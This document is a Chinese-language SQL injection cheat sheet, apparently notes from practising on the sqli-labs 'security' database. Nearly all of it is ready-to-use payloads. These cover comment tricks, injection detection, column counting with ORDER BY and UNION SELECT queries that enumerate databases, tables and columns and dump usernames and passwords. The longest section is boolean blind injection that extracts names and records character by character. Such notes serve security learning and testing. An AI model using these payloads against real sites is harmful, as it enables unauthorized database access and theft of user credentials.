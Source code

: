 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

`--+`
`-- 任意符号`
`%23`  (#ur编码)

##### 判断注入

`1' and 1=1 --+`
`1' and 1=2 --+`

##### 查询字段

`1' order by 1 --+` 正常
`1' order by 4 --+` 报错
`1' order by 3 --+` 正常
字段为3

##### UNION SELECT 联合查询

`-1' union select 1,2,3 --+`
`1' and 1=2 union select 1,2,3 --+`
报错2，3

##### 信息收集

`version()`   #Mysql版本
`user()`      #数据库用户名
`database()`  #数据库名
`@@datadir()` #数据库路径

##### 查询所有数据库

`-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+`

##### 查询当前数据库的所有表名

`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x`

##### 查询users表下的列名
`-1'  union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+`

##### 查询users表下的列名id,username,password的值
`-1'  union select 1, 2, group_concat(id,username,password) from users --+`

##### 布尔型盲注

![1](https://i.loli.net/2019/05/20/5ce2c8c162c6790704.png)

判断当前数据库名(security)长度

`id=1' and length((select database()))>=8 --+` 

`id=1' and length(database())>=8 --+`

判断数据库名第一位为ascii(115) = s(字母)

`id=1' and ascii(substr(database(),1,1))=115 --+`

判断数据库名第二位为ascii(101) = e(字母)

`id=1' and ascii(substr(database(),2,1))=101 --+`

第三位

`id=1' and ascii(substr(database(),3,1))=99 --+`

或者

数据库第一位为s

`id=1' and left(database(),1)='s' --+`

数据库前两位为se

`id=1' and left(database(),2)='se' --+`

查数据库security的表名

`emails,referers,uagents,users`

![2](https://i.loli.net/2019/05/20/5ce2c8f41037893235.png)

查第一张表名的第一个字符101 = e

`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+`

查第一张表名的第二个字符109 = m

`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+`

查第二张表名的第一个字符114 = r

`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+`

查users表的列名

`id,username,password`

![3](https://i.loli.net/2019/05/20/5ce2c93bde5ad46381.png)

查users表的第一个列名的第一个字符 i

`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105--+`

查users表的第一个列名的第二个字符 d

`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=100--+`

查users表的第二个列名的第一个字符 u

`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=117--+`

查数据库security表名users的内容

![4](https://i.loli.net/2019/05/20/5ce2c9690c65c59514.png)

查users表的username的第一字段的第一个字母 D

`id=1' and ascii(substr((select username from security.users order by id limit 0,1),1,1))=68--+`

查users表的username的第一字段的第二个字母 u

`id=1' and ascii(substr((select username from security.users order by id limit 0,1),2,1))=117--+`

查users表的username的第二字段的第一个字母 A

`id=1' and ascii(substr((select username from security.users order by id limit 1,1),1,1))=65--+`

查users表的username的第二字段的第二个字母 n

`id=1' and ascii(substr((select username from security.users order by id limit 1,1),2,1))=110--+`
